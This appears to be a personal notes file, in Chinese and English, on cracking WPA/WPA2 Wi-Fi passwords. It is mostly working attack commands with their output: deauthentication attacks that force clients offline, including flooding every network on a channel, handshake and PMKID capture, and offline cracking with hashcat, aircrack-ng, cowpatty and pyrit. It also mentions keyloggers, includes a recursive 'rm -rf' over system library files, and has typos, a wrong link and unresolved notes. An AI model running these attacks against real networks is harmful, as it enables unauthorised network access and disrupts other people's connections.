



# [Wifi_Hacking](https://bbs.ichunqiu.com/thread-21342-1-1.html)
## a video('kali linux airmod-ng + hashcat.mp4')
## Through Capturing the `hccapx` file
### 一. 抓包
0. 为了保证aircrack套件在运行的时候不被其他进程所干扰,我们需要先执行以下命令
`airmon-ng check kill`

1. 首先开启网卡的监听模式
可以看到,当前网卡默认还处在管理模式,这时我们需要手动将其变成监听模式,这样才能进行正常的抓包
`iwconfig` 使用此命令可查看无线网卡的当前工作模式

`airmon-ng start 网卡接口(wlan0)`

如果在运行此命令后为发现interface，则说明现有无线网卡不支持监听模式，需要购买支持监听模式的网卡如RTL8187等。

执行成功之后网卡接口变为wlan0mon；可以使用ifconfig命令查看。
`iwconfig` 再次查看无线网卡工作模式是否真的已经改过来了

另外,你的无线网卡在启动监听模式以后,网卡接口名称就变成了wlan0mon,以后只要是在aircrack套件中需要指定网卡接口名称的,都要用这个名字,在老版本的aircrack中默认名称是mon0,而新版本则统一变成了wlan0mon
2. 扫描附近无线情况
,一切准备就绪之后,我们开始尝试扫描附近的无线接入点,找个有客户端在线的再单独监听,一定要注意,”目标无线必须要有客户端在线”,否则是抓不到包的,这也是整个无线破解最核心的地方,因为我们要把对方的某个在线客户端蹬掉线,才能截获他的握手包
`airodump-ng wlan0mon`

我们要测试的wifi名称是YJS，我用我的手机连上去，有设备就好抓握手包了。我们想办法让我的手机掉线，然后再重新连接时抓取握手包，跑包就可以了。
3. 单独监听目标wifi，准备抓取握手包
单独监听目标无线热点,注意这里在监听目标无线的过程中不要断开,直到整个抓包过程完成为止,接下来要做的事情就是等待客户端上线,然后进行抓包,例如,下面就表示有一个客户端在线,其实,抓握手包的原理就是先把这个在线的用户给蹬掉线,然后再截获它的握手包,而这个包里就有我们想要的无线密码
 * `airodump-ng --bssid DC:EE:06:96:B7:B8 -c 6 -w sec wlan0mon` 监听目标无线,并把截获到的数据写到指定文件中
     
 * `airodump-ng --bssid EC:26:CA:33:E1:B6 -c 6 -w testap wlan0mon`
   参数说明： --bssid 目标AP MAC
   -c 目标AP所在信道
   -w 握手包保存的文件名
   
 * `airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 -w ~/ wlan0mon`
  
???fixed channel always changing???
4. 使用DEAUTH攻击使已经连接的客户端断开并重新连接，以产生握手包(用minidwep-gtk长时间一般也可以抓到包）
??? `aireplay` and `mdk3` will cause ubuntu crash, or the `airodump-ng` causes it.???
发现客户端在线稳定后,就可以向目标发射’ddos’流量了,直到我们在监听的终端下看到有握手包出现为止,如果第一轮包发完成后,并没看到握手包,别着急,先等个几十秒,或者隔个五六秒再发一次即可,正常情况下,基本一次就能搞定
通过aireplay-ng的工具，它可以强制用户断开wifi连接；原理是，给连接到wifi的一个设备发送一个deauth（反认证）包，让那个设备断开wifi，随后它自然会再次连接wifi。
 * `aireplay-ng -0 10 -a EC:26:CA:33:E1:B6 -c C0:EE:FB:E9:9D:7C mon0` (此种方法在虚拟机上运行时会造成系统崩溃）
  参数解释： -0 Deautenticate攻击模式 0代表无限次（是数字）
  -a 目标ap的mac
  -c 客户端网卡mac
  发起攻击后我们可以看到客户端的帧（Frames）迅速增加
  
  得到的握手包：
  
 * `sudo mdk3 mon0 d -n B8:F8:83:76:92:69 -c 9` ([install & use mdk3](#mdk3))
    运行完这个命令出现`Network is down`之后马上在minidwep上点“Launch”即可抓到包。
    比如你要用mdk3 mon0 d -c 命令:
    那就要先添加黑名单或者白名单，-c后面是信道，添加白名单的话不会攻击白名单mac或者添加黑名单mac只攻击这个ssid
    如`echo mac地址 > withelist`
    `mdk3 mon0 d -w withelist -c 11`，这样信道11的ssid除了白名单外都会被攻击
    此方法也适用于reaver一直重复一个pin情况，可以让客户端重启路由器。
 * `aireplay-ng --deauth 15 -a DC:EE:06:96:B7:B8 wlan0mon`
     
     可以看到,这时握手包已被正常抓获,此时监听也就可以断开了,注意观察终端的右上角,那个带有handshake标志的就是握手包的意思
     
5. 抓包成功后ctrl+C即可结束抓包。
停止监听模式
`airmon-ng stop wlan0mon`
### 二. 把cap转换成hccap
* 用aircrack-ng
`aircrack-ng <out.cap> -J <out.hccap>`
这个就不用细说了吧，第一个是cap第二个是转换后得到的hccap文件。

* https://hashcat.net/cap2hccapx/
* cap2hccapx
    * install
        `cd ~`
        `wget https://raw.githubusercontent.com/hashcat/hashcat-utils/master/src/cap2hccapx.c`
        `gcc cap2hccapx.c`
        `mv <out_file> /bin/cap2hccapx`
        `rm cap2hccapx.c`
    * usage
        `cap2hccapx input.pcap output.hccapx [filter by essid] [additional network essid:bssid]`
### 三. 跑包
在我们抓获握手包以后,接下来的事情就非常简单了,你可以直接用aircrack加载弱口令字典进行爆破,当然,个人是十分不建议用字典(效率,实用性,太低,过于浪费时间),推荐大家直接把包处理一下丢给hashcat或者某宝去跑就行了
* `aircarck-ng -a 2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap`
    * -a2代表WPA的握手包
    * -b指定要破解的wifi BSSID。
    * -w指定字典文件
    * 最后是抓取的包
        
    利用aircrack加载字典进行爆破,反正我自己很少用,基本没用过,先不说速度如何,关键还是看你的字典是否靠谱,实际测试中,个人并不建议用,因为根本没有靠谱性可言,因为这里仅仅是测试,实际渗透中,哪有太多的时间让你去跑[比如,实地渗透]
* `hashcat -m 2500 testap.hccapx pass.txt`
使用hashcat命令，第一个参数： -m 2500为破解的模式为WPA/PSK方式 ，第二个参数： hccap格式的文件是刚刚转化好的文件， 第三个参数：pass.txt为字典文件 :
新版的hashcat要用`.hccapx`格式，可以在`https://hashcat.net`里convert

破解的结果：

## A new attack on WPA/WPA2 using PMKID
In this writeup, I'll describe a new technique to crack WPA PSK (Pre-Shared Key) passwords.
In order to make use of this new attack you need the following tools:
* [hcxdumptool v4.2.0 or higher](https://github.com/ZerBea/hcxdumptool)
* [hcxtools v4.2.0 or higher](https://github.com/ZerBea/hcxtools)
    * run `sudo apt install libcurl4-openssl-dev` when prompted with "fatal error: curl/curl.h: No such file or directory" when run `run`
* [hashcat v4.2.0 or higher](https://github.com/ZerBea/hcxdumptool)
This attack was discovered accidentally while looking for new ways to attack the new WPA3 security standard. WPA3 will be much harder to attack because of its modern key establishment protocol called "Simultaneous Authentication of Equals" (SAE).
The main difference from existing attacks is in this attack, capture of a full EAPOL 4-way handshake is not required. The new attack is performed on the RSN IE (Robust Security Network Information Element) of a single EAPOL frame.
At this time, we do not know for which vendors or for how many routers this technique will work, but we think it will work against all 802.11i/p/q/r networks with roaming functions enabled (most modern routers).
The main advantages of this attack are as follow:
* No more regular users required - because the attacker directly communicates with the AP (aka "client-less" attack)
* No more waiting for a complete 4-way handshake between the regular user and the AP
* No more eventual retransmissions of EAPOL frames (which can lead to uncrackable results)
* No more lost EAPOL frames when the regular user or the AP is too far away from the attacker
* No more fixing of nonce and replaycounter values required (resulting in slightly higher speeds)
* No more special output format (pcap, hccapx, etc.) - final data will appear as regular hex encoded string
### Attack details
The RSN IE is an optional field that can be found in 802.11 management frames. One of the RSN capabilities is the PMKID.

The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address.
`PMKID=HMAC-SHA1-128(PMK,"PMK Name"|MAC_AP|MAC_STA)`
Since the PMK is the same as in a regular EAPOL 4-way handshake this is an ideal attacking vector.
We receive all the data we need in the first EAPOL from the AP.
### How to reproduce
#### 1. Run hcxdumptool to request the PMKID from the AP and to dump the received frame to a file( in pcapng format)
`$ ./hcxdumptool -o test.pcang -i wlp39s0f3u4u5 --enable_status`

Output:

        starting scapturing (stop with ctrl+c)
        INTERFACE............:wlp39s0f3u4u5
        FILTERLIST............:0 entries
        MAC CLIENT............:89acf0e761f4(client)
        MAC ACCESS POINT............:4604ba734d4e(start NIC)
        EAPOL TIMEOUT............:20000
        DEAUTHENTICATIONINTERVALL:10 beacons
        GIVE UP DEAUTHENTICATIONS:20 tries
        REPLAYCOUNTERR............:62083
        ANONCE............:9ddca61888470946305b27d413a28cf474f19ff64c71667e5c1aee144cd70a69
IF an AP receives our association request packet and supports sending PMKID we will see a message "FOUND PMKID" after a moment:

        [13:29:57-011]89acf0e761f4->4604ba734d4e<ESSID>[ASSOCIATIONREQUEST,SEQUENCE 4]
        [13:29:57-011]4604ba734d4e->89acf0e761f4[ASSOCIATIONRESPONSE,SEQUENCE 1206]
        [13:29:57-011]4604ba734d4e->89acf0e641f4[FOUND PMKID]
Note: Based on the noise on the wifi channel it can take some time to receive the PMKID. We recommend running hcxdumptool up to 10 minutes before aborting.
#### 2. Run hcxpcaptool to convert the captured data from pcapng format to a hash format accepted by hashcat.
`$ ./hcxpcaptool -z test.16800 test.pcapng`

Output:

        start reading from test.pcapng

        summary:
        ------
        file name.............:test.pcapng
        file type.............:pcapng 1.0
        file hardware information....:x86_64
        file os information.....:Linux 4.17.11-arch1
        file application information:hcxdumptool 4.20
        network type.............:DLT_IEEEE802_11_READIO(127)
        endianess.............:little endian
        read errors.............:flawless
        packets inside.............:66
        skipped packets.............:0
        packets with RCS.............:0
        beacons(with ESSID inside)....:17
        probe request.............:1
        probe response.............:11
        association requests.............:5
        association responses.............:5
        authentication (OPEN SYSTEM):13
        authentications (BROADCOM)....:1
        EAPOL packets.............:14
        EAPOL PMKIDs.............:1
        
        1 PMKID(s) written to test.16800

The content of the written file will look like this:
`2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a`
The columns are the following (all hex encoded):
* PMKID
* MAC AP
* MAC Station
* ESSID
Note: While note required it is recommended to use options `-E -I` and `-U` with hcxpcaptool. We can use these files to feed hashcat. They typically produce good results.
* `-E` retrieve possible passwords from WiFi-traffic (additional, this list will include ESSIDs)
* `-I` retrieve identities from WiFi-traffic
* `-U` retrieve usernames from WiFi-traffic
`$ ./hcxpcaptool -E essidlist -I identitylist -U usernamelsit -z test.16800 test.pcang`
#### 3. Run hashcat to crack it.
Bassically we can attack this hash as any other hash type. The hash-mode that we need to use is 16800.
`$ ./hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'`

Output:

        hashcat (v4.2.0) starting...

        OpenCL Platform #1:NVIDIA Corporation
        ===========================================
        * Device #1: GeForce GTX 1080, 2028/8112 MB allocatable, 20MCU
        * Device #2: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU
        * Device #3: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU
        * Device #4: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU
        
        Hashes: 1 digests; 1 unique digests, 1 unique salts
        Bitmaps: 16 bits, 65535 entries, 0x 0000ffff mask, 262144 bytes, 5/13 rotates

        Applicable optimizers:
        * Zero-Byte
        * Single-Hash
        * Signle-Salt
        * Brute-Force
        * Slow-Hash_SIMD-LOOP
        
        Minimum password length supported by kernel: 8
        Maximum password length supported by kernel:63

        Watchdog: Temperature abort trigger set to 90c

        2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a:hashcat!

        Session......:hashcat
        Status.......:Cracked
        Hash.Type....:WPA-PMKID-PBKDF2
        Hash.Target..:2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf...a39f3a
        Time.Started...: Thu Jul 26 12:51:38 2018 (41 secs)
        Time.Estimated..:Thu Jul 26 12:52:19 2018 (0 secs)
        Guess.Mask......:?l?l?l?l?l?lt![8]
        Guess.Queue.....:1/1(100.00%)
        Speed.Dev.#1....: 408.9 kH/s (103.86.ms) @ Accel:64 Loops:128 Thr:1024 Vec:1
        Speed.Dev.#2....: 408.6 kH/s (104.90ms) @ Accel:64 Loops:128 Thr:1024 Vec:1
        Speed.Dev.#3....: 412.9 kH/s (102.50ms) @ Accel:64 Loops:128 Thr:1024 Vec:1
        Speed.Dev.#4....: 410.9 kH/s (104.66ms) @ Accel:64 Loops:128 Thr:1024 Vec:1
        Speed.Dev.#*....: 1641.3 kH/s
        Recovered.......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
        Progress........: 66846720/308915776 (21.64%)
        Rejected........: 0/66846720 (0.00%)
        Candidates.#1...: hariert! -> hhzkzet!
        Candidates.#2...: hdtivst! -> hzxkbnt!
        Candidates.#3...: gnxpwet! -> gwqivst!
        Candidates.#4...: hxhcddt! -> hrjmrut!
        HWMon.Dev.#1.....: Temp: 81c Fan: 54% Util: 75% Core:1771MHz Mem:4513MHz Bus:1
        HWMon.Dev.#2.....: Temp: 81c Fan: 54% Util:100% Core:1607MHz Mem:4513MHz Bus:1
        HWMon.Dev.#3.....: Temp: 81c Fan: 54% Util: 94% Core:1683MHz Mem:4513MHz Bus:1
        HWMon.Dev.#4.....: Temp: 81c Fan: 54% Util: 93% Core:1620MHz Mem:4513MHz Bus:1

        Started: Thu Jul 26 12:51:30 2018
        Stopped: Thu Jul 26 12:52:21 2018

## Cracking using the Pre-computed PMKs
???There's also support for hash-mode 16801, which allows skipping the computation of the PMK - which is the computation that makes cracking WPA so slow. Pre-computing PMK can be useful in cases where you are on site and you cannot transfer a hash to a remote cracking rig because of an NDA. The goal is to run hashcat on your notebook which you can bring to the site.
The mode 16801 expects a list of pre-computed PMKs, as hex encoded strings of length 64, as the input wordlist. To pre-compute the PMKss you can use the hcxkeys tool. The hcxkeys tools requre the ESSID, so you need to ask for the ESSID from your client in advance.???

If you are following the series from the very beginning you must be familiar with the Handshake we captured and used it with a Wordlist to crack the WPA-PSK. As there is a tremendous possibility for WPA2 passphrases as they can be AlphaNumeric including special characters that too with 8-64 characters long. There is practically no limit to the wordlist we could create. They can reach even PetaBytes in size which will take time till next Big Bang for the CPU/GPU to crack the correct passphrase, if it is a strong one.
So, we need to discover various ways to crack the WPA-PSK within a short span of time. Which is possible if we somehow get the PSK via router panel, keylogger or use a GPU instead of CPU to use its multiple cores to boost cracking speed, or something even different.
That is what we will learn in this chapter. We will boost the WPA2 crakcing speed without using any GPU or Cloud. Which can be very useful with the AP's very common name like "Airtel", "MTNL", "Belkin" etc.
WPA2 cracking is dependent on SSID and passphrase that meas that if there are 2 access points with different SSID but same Passphrase, their PMKs will be completely different.
### What is PMK?
The 256 Bit value derived by the PBKDF2 function using the SSID, Passphrase (PSK) as the differentiating factors used for authenticating between the AP and the Client. It will look like this:

Do some math.
These are 32 HexaDecimal values, every HexaDecimal values takes 8 bit, so 32*8=256 Bit, which is the PMK i.e. 256-Bit key.
We can also cross check this without cracking the key with aircrack-ng.
By using wpa_passphrase command that comes pre-installed on almost every *nix distribution.
Open terminal and type:
`wpa_passphrase <SSID> <Passphrase>`
`wpa_passphrase rootsh3ll iamrootsh3ll`
We need to insert SSID along with Passphrase because as told earlier WPA2-PSK is SSID dependent, it changes completely with a slight change in SSID.
Now, here's the output.

Compare the highlighted value with the value of Master Key above. Yes, it's exactly the same. So here is the confirmation that PMK we calculated and the PMK aircrack-ng calculated for a specific SSID and Passphrase is the same. Now we will see how to boost the speed.
### Pre-computing PMKs using CoWPAtty and Pyrit and Cracking
#### Content of this chapter will go like this
* Introduction
    * CoWPAtty
    * Pyrit
* Installation
    * CoWPAtty from Source code
    * Pyrit from Source code
* Generate PMKs
    * Using GenPMK, Included in CoWPAtty (Single-threaded)
    * Using Pyrit (Multi-threaded)
* Cracking PSK (Pre-Shared Key):
    * With PMKs [CoWPAtty vs Aricrack-ng]
    * [EXTRA!]Pyrit + CoWPAtty Stdin
#### Introduction
##### What is CoWPAtty?
CoWPAtty is a free command line tool that automates the dictionary attack for WPA-PSK. It runs on Linux. It is an implementation of an offline dictionary attack against WPA/WPA2 networks using PSK-based authentication. CoWPAtty take 2 types of input to crack WPA-PSK i.e
1. Standard Wordlist
2. Pre-generated PMKs or Hash
CoWPAtty comes pre-installed in Kali Linux.
CoWPAtty can be downloaded from www.willhackforsushi.com
##### What is Pyrit?
Pyrit is a tool written in Python that allows you to create masssive databases, pre-compute the WPA-PSK to save time. This technique is called space-time-tradeoff. Pyrit supports both CPU and GPU. For using GPU you need to install supported graphics driver.
Pyrit comes pre-installed in Kali Linux. Pyrit can be downloaded from https://github.com/JPaulMora/Pyrit
###### What is space-time-tradeoff?
What we actually do is we pre-compute the PMK (Pairwise Master Key) with corresponding SSID and store it on a hard drive and we can use it at anytime with the cap file for the same SSID, as WPA-PSK is SSID and Password sensitive. As we have pre-computed the PMKs and stored on our hard drive, it is just like a lookup for the system into the table which doesn't take much time and cracking speed is very high, saving us a lot of time.
Only condition is there must be a Pre-computed file with same SSID and different passphrase picked from a wordlist. Although even this doesn't guarantee cracking the PSK but cracking speed is significantly higher than any CPU or GPU, that we will see in this tutorial.
#### Installation
##### Installing CoWPAtty from Source code

        cd ~/Desktop
        wget http://www.willhackforsushi.com/code/cowpatty/4.6.cowpatty-4.6.tgz
        tar xzvf cowpatty-4.6.tgz
        cd cowpatty-4.6
        make        # Compile Source code to Executable Binaries
        sudo cp cowpatty /usr/bin  # Copy CoWPAtty Executable to /usr/bin folder to run as command

##### Installing Pyrit from Source code

        wget https://pyrit.googlecode.com/files/pyrit-0.4.0.tar.gz
        tar xzvf ppyrit-0.4.0.tar.gz
        cd pyrit-0.4.0
        python setup.py build    # Build setup
        sudo python setup.py install   # Installing Pyrit

#### Generate PMKs
##### Generate PMKs using GenPMK
GenpMK is a tool which installs along with cowpatty as a substitute for generating the hash file (PMKs) and allowing coWPAtty ot crack WPA2-PSK at higher speeds.
Let's see how to create PMKs using GenPMK.
`genpmk -f "wordlist" -d "output_filename" -s "SSID"`
`genpmk -f "length08.txt" -d "GENPMK_rootsh3ll" -s "rootsh3ll"`
Now you should see a similar output

Note: GENPMK_rootsh3ll doesn't exist, so genpmk created a new file. In case the file already exists, the hashes will be appended to the existing file.
Now wait for genpmk to finish creating PMKs, and it will show you the average speed (Passphrase/sec) at which it generated PMKs. Mine was
`20000 passphrases tested in 54.94 seconds: 363.99 passphrases/second`
As I have told already, GenPMK is a singe threaded program. Here you can see that while running GenPMK only one core was used to 100%.

##### Generate PMKs using Pyrit
`pyrit -o "output_filename" -i "wordlist" -e "SSID" passthrough`
`pyrit -o "PYRIT_rootsh3ll" -i "length08.txt" -e "rootsh3ll" passthrough`
If you notice, options required are still the same but we have just changed the output filename with a prefix "PYRIT" to distinguish the PMKs generated using Pyrit and GenPMK.
`passthrough` is an option in pyrit used to create the PMKs from the passphrase take from the dictionary at a moment. Speed is comparitively high from GenPMK.

363.99 vs. 2089. why? Because GenPMK is a single threaded program whereas Pyrit is a tool that utilizes full power of the CPU i.e either 4 cores or 8 cores, so pyrit will get the maximum power. Which is that makes it better option to choose for generating PMKs over GenPMK.

#### Crack WPA2-Pre Shared Key [CoWPAtty vs. Aircrack-ng]
It would be better if we first check the aircrack-ng's cracking speed on this system and then notice a boost in speed using CoWPAtty.
##### Cracking WPA2-PSK with Aircrack-ng
Requirements:
* 4-way EAPOL Handshake (Pcap file)
* Wordlist (8-63 character length)
In this example I have kept real password at the end of the filel and checked the maximum speed aircrack-ng reached while cracking the PSK.
* `aircrack-ng -w <wordlist> <Pcap file>`
    `aircrack-ng -w length08.txt roootsh3ll-01.cap`
    Notice the speed:
    
    1708.09 Keys/sec, that's what aircrack-ng reached at max on my system (i5, 2.5 GHz).
* Now we will use the pre-computed PMKs with CoWPAtty and see the difference in speed
    Note: There is no GPU involved in generation of PMKs or cracking of Key at any step.
    `cowpatty -d <Hash File> -r <Pcap file> -s <SSID>`
    `cowpatty -d PYRIT_rootsh3ll -r rootsh3ll-01.cap -s rootsh3ll`
    You can also use GENPMK_rootsh3ll, both are the same. I am using PYRIT_rootsh3ll because it contains more passphrases (PMKs) due to the higher calculation speed of Pyrit.
    
See the difference, with same system, same RAM, no GPU included and almost 12,676% of boost in speed.
Aircrack-ng:1708 Passphrases/second
Cowpatty with pre-generated PMK: 216521 Passphrases/second
This has been possible just because we had pre-comuted Keys and what CoWPAtty had to do is just lookup the hash file, but no calculations involved.
We have already learned in the one of the starting chapters of the series that the most crucial part of the WPA2-PSK cracking is the PBKDF2 function which goes like this:
PBKDF2(Passphrase,SSID,ssidLen,4096,256)
PBKDF2 stands for Password Based Key Derivation Function which uses a Passphrase and an SSID, length of SSID (9 for 'rootsh3ll') iterates 4096 times for each passphrase, hashing with SHA1 algorithm and come out with a 256-bit key that is called PMK.
One password takes 4096 CPU iterations to come out with 256-bit PSK. Imagine a wordlist containing a million passphrases. How many CPU cycles will it take for that wordlist to process and generate the PMKs? 4,096,000,000! That's 4 billion iterations for a million words. Even 1 million words are nothing Dictionary sizes go way beyond GigaBytes, or TeraBytes.
This is why we get very less cracking speeds as compared to MD5, SHA1 Hash cracking.
##### [EXTRA!] Pyrit+CoWPAtty Stdin
Now, we have learned to separately create PMKs and using it with CoWPAtty to boost the cracking speeds. Here is one method, which doesn't improves the speed compared to aircrack-ng but is very interesting to learn and see the working of the commands as well as the terminal, since this series is for beginners this thing is a worthwhile.
Here what we are going to do is:
1. We will pass a dictionary(8-63 char length) to pyrit and tell it to generate the PMKs and
2. We will not write the output to a file rather passing it to CoWPAtty
3. CoWPAtty will receive PMKs as a stdin(standard input) and
4. cracking will begin
You can see this as a sophisticated version of cracking with aircrack-ng as in aircrack-ng we just pass the cap file and dictionary. This will be quite long and deep in terms of understanding.
Here is the command:
`pyrit -i length08.txt -e rootsh3ll -o - passthrough | cowpatty -d - -r rootsh3ll-01.cap -s rootsh3ll`
What we did is we passed the output of the pyrit command to the CoWPAtty in realtime and CoWPAtty is executing at the same time and trying to crack the passphrase.
We neither used any output filename with Pyrit(PYRIT_rootsh3ll previously), nor input file for CoWPAtty with `-d` option that is for hash file.
We used another Linux Shell's feature to store the input in the STDIN(Standsard Input) and receive it at the same time from STDIN. This is done by using `-` operator. This operate works as STDIN when we have to direct some output to/from a file. i.e writing to Hash file with pyrit and taking input from Hash file with CoWPAtty. We replaced both the filenames with `-` that simply means Pyrit will write the calculated PMKs to Standard Input and the output will be passed using `|` operator to the CoWPAtty command. Now at the very same moment at which CoWPAtty starts retrieving the Input from the STDIN, as told to `-d` option, CoWPAtty will take the calculated PMKs from the STDIN and start cracking the PSK.
This is what it will look like when executed:

Speed is almost similar to what aircrack-ng was calculating at because PMKs are being calculated at realtime and being passed to CoWPAtty. CPU is being consumed!
Hope you got a better insight of what happens while cracking and speeding up the whole process.

### Pre-computing PMKs using hcxkeys tool and cracking
#### Installation
* `git clone https://github.com/ZerBea/hcxkeys`
* `cd hcxtools`
* `make`
    If prompted with "fatal error: CL/cl.h: No such file or directory" or "cannot find '-lOpenCL'"
    `sudo apt install opencl-headers`
    `sudo apt install ocl-icd-libopencl1`
    `sudo apt install ocl-icd-opencl-dev`
* `sudo make install`
#### Description

Tool|Description
--|--
wlangenpmk|Generate plainmasterkeys (CPU) from essid and password for use with hashcat hash-mode 2501 ???can not be used with hash-mode 16801????
wlangenpmkocl|Generates plainmasterkeys (GPU) from essid and password for use with hashcat hash-mode 2501 ???can not be used with hash-mode 16801???
pwhash|Generate hash of a word by using a given charset

#### `wlangenpmkocl --help`
* Options:
    * `-e <essid>`: input single essid (networkname 1 .. 32 characters) requires `-p`
    * `-p <password>`: input single password (8 .. 63 characters) requires `-e`
    * `-i <file>`: input passwordlist
    * `-I <file>`: input combilist (essid:password)
    * `-a <file>`: output plainmasterkeys as ASCII file (`hashcat -m 2501`)
    * `-A <file>`: output plainmasterkeys:password as ASCII file
    * `-c <file>`: output cowpatty hashfile (existing file will be replaced)
    * `-P <platform>`: input platform, default 0 (first platform)
    * `-D <device>`: input device, default 0 (first device)
    * `-l` : list device info
    * `-h` : this help
* Examples of stdin/stdout usage:
    `cat wordlist | wlangenpmkocl -e <essid> | hashcat -m 2501 ...`
    `cat wordlist | wlangenpmkocl -e <essid> <pmklist>`
    or use classic mode:
    `wlangenpmkocl -e <essid> -i <wordlist> -a <pmklist>`
    or use mixed mode:
    `wlangenpmkocl -e <essid> -i <wordlist> <pmklist>`
## [Hashcat 说明](https://klionsec.github.io/2017/04/26/use-hashcat-crack-hash/)
### need to be solved
  * install intel opencl sdk，速度太慢，查看hashcat硬件及驱动要求
      * Intel's OpenCL runtime (GPU only) is currently broken
      * `--gpu-accel 160` not working
      * `-D 1,2,3` not working properly
      * too slow
      * cpu报错
  * Outdated or broken Intel OpenCL runtime detected!
### how to install OpenCL drivers
#### for intel cpu
##### requirements
Intel CPUs require "OpenCL Runtime for Intel Core and Intel Xeon Processors" (16.1.1 or later)
##### how to install/reinstall
1. Completely uninstall the current driver
 * Windows: use software center
 * Linux:
   * NVIDIA: nvidia-uninstall
   * AMD: amdconfig --uninstall=force
   * If you installed the driver via a package manager (Linux), then you need to remove these packages too
   * Make sure to purge those package, not to just uninstall them
2. Reboot
3. For Windows only: download and start Driver Fusion (free version is enough; select “Display”, AMD/NVidia/Intel, ignore the warning about Premium version), then Reboot
4. Make sure that no Intel OpenCL SDK, AMD-APP-SDK or CUDA-SDK framework is installed – if it is installed, uninstall it!
5. For Windows only: manually delete remaining OpenCL.dll, OpenCL32.dll, OpenCL64.dll files on all folders. You should find at least 2. They usually reside in “c:\windows\syswow64” and “c:\windows\system32”. This step is very important!
6. For Linux only:

        dpkg -S libOpenCL to find all packages installed that provide a libOpenCL, then purge them
        find / -name libOpenCL\* -print0 | xargs -0 rm -rf
7. Reboot
8. For Linux only: apt-get install ocl-icd-libopencl1 opencl-headers clinfo
9. Install the driver recommended on https://hashcat.net/hashcat/. If it says *exact* it means exact.
    For AMD GPUs, see ROCm instructions here.
10. Reboot
11. For Linux only: rm -rf ~/.hashcat/kernels
12. Reinstall hashcat, choose:
    * Stable version: Download and extract (under Linux, make sure to use: “7z x” to extract) the newest hashcat from https://hashcat.net/
    * Beta version: https://hashcat.net/beta/
    * Development version: git clone https://github.com/hashcat/hashcat
13. For Linux only: try to run “clinfo” first in your terminal
14. Try to run hashcat --benchmark
##### the file used for intel cpu
./opencl_runtime_16.1.2_x64_setup.msi
#### for intel gpu
##### requirements
* Intel GPUs on Windows require "OpenCL Driver for Intel Iris and Intel HD Graphics"
* Intel GPUs on Linux require "OpenCL 2.0 GPU Driver Package for Linux" (2.0 or later)
##### how to install
Intel has great OpenCL support on Windows, but no support on Linux. Intel's OpenCL SDK for Linux supports only CPU.
Since hashcat is programmed on Linux (and afterwards cross-compiled for windows) there's no chance yet to getting this work.
GPUs are not magic go-fast devices. The microarchitecture and ISA have to be well-suited for the task at hand. As it stands, Intel GPUs have very minuscule raw compute power, and their ISA is not optimal for password cracking. Most modern-day CPUs with XOP or AVX2 support will be faster than an Intel GPU.
For Windows, when you install or update the graphics driver (Windows update, downloadcenter.com, etc.), the additional libraries needed to run Media SDK and OpenCL applications are included.
##### Intel's OpenCL runtime (GPU only) is currently broken
First, use this http://www.intel.com/content/www/us/en/support/detect.html to update or reinstall your intel gpu driver.
Second, add `--force` to your para.
### 基础知识
* What is a hash?
Hash is a One-way function (non-reversible) that takes an input string and outputs a string of a fixed length. There are plenty of hash functions that maybe you are probably familiar with some of the common ones are md5, various versions of SHA, NTLM, WPA, and numerous others.

* Approaches to crack a hash
    * using dictionary
